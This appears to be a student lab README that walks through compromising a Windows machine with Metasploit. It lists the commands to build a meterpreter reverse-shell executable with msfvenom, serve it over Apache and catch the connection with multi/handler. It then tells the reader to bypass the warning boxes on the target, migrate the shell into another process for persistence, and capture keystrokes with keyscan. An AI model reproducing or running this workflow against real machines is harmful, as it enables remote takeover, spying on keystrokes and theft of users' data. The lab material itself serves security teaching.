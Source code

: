 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## ALGORITHM:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

# commands:
```
ipconfig
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
cp fun.exe /var/www/html
sudo systemctl apache2 start
msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
ps
```
# EXECUTION STEPS AND ITS OUTPUT:
Find the attacker ip address using ipconfig

# OUTPUT:
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/c329f5e0-1026-49bb-a460-c33cd337f80b)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

# OUTPUT:
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/7380210c-4ea5-4bc9-9760-e73134a676eb)

copy the fun.exe into the apache /var/www/html folder

# OUTPUT:
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/c08cc1ac-7f33-4728-a0cc-3fabe2c0260e)

Check the status of apache2

# OUTPUT:
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/6ab1f556-509b-44bb-aa5b-ea25d084f479)

Invoke msfconsole:

# OUTPUT:

![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/7bac94f8-c819-48f3-80b8-0ba5f4760c2d)

ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/1dc91b9e-4ee2-4ea0-8793-61c2e6674bcc)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/91ee5b80-7ead-4074-b94d-e57d406b63eb)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/f15c5ecb-1ab4-48b9-b6eb-4aa07d4ca0aa)

Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/3502424c-9809-4517-871f-331bc774a103)

On kali give the command exploit
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/74d68931-80c5-47da-b5aa-d0109a6252ee)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/56f7754c-1a12-464c-8a2a-7f74d0df12e2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/64c1827f-4651-4ada-9603-9a5b0791644c)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/a9e49039-ffe6-4b5d-b621-af6b93a041b6)

![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/f4532000-3ed8-4d6a-816a-4c5b5fca3432)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/karthika28112004/Compromising-windows-using-Metasploit/assets/128035087/e72df207-717a-420c-ae86-7dc73f628827)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
